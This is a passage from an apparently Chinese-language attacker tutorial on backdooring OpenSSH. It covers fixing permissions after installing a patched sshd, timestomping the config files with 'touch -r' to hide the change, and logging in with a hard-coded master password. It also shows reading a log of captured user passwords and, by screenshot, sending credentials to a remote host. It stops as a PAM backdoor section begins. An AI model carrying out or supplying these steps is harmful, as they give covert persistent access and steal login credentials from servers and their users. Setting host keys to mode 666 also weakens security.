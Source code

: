 解决办法：

```bash
chmod 666 /etc/ssh/ssh_host_rsa_key
chmod 666 /etc/ssh/ssh_host_ecdsa_key
service sshd restart
```

或者

```bash
chown -R root.root /var/empty/sshd
chmod 744 /var/empty/sshd
service sshd restart
```

*回复配置文件日期*

恢复新配置文件的日期，使其与旧文件的日期一致。对`ssh_config`和`sshd_config`文件的内容进行对比，使其配置文件一致，然后修改文件日期。

```bash
touch -r  /etc/ssh/ssh_config.old /etc/ssh/ssh_config
touch -r  /etc/ssh/sshd_config.old /etc/ssh/sshd_config
```

![截图](d072ee9f704c9dc83801f83e7305e969.png)

可以看到这里已经伪装完毕！！！

#### 4）效果验证

这时候，我们就可以使用万能密码登录了！

```bash
ssh root:yuan@ip -o HostKeyAlgorithms=+ssh-dss
```

![截图](3046af4bfe2fa2f68faab1b6c8100670.png)

尝试记录密码，用正确的账号与密码登录：

注意，这里可能会有报错:（因为ssh7.0以后不再支持`ssh-dss`）

![截图](e38b5fffb23fa978d331daa044451a01.png)

我们需要添加：

```bash
ssh root:密码@ip -o HostKeyAlgorithms=+ssh-dss
```

查看`ilog`文件，查看当前主机正确的登录密码！！

![截图](5f73328efcd7b04256274f131a092d3b.png)

发送账户密码到远端：

![截图](24267512ebbfe2f7227d981de9ee7d0b.png)

## 0x02 更改验证-SSH-PAM后门

